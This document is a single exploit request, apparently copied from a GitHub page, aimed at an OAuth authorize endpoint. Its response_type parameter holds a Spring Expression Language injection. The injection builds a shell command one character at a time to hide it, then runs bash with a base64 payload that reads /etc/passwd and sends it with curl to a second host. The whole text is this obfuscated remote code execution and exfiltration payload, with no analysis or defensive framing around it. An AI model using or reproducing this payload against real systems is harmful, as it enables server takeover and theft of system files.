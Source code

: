 ```php
http://192.168.175.209:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(88)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(57)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(88)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}
&amp;client_id=acme&amp;scope=openid&amp;redirect_uri=http://test
```
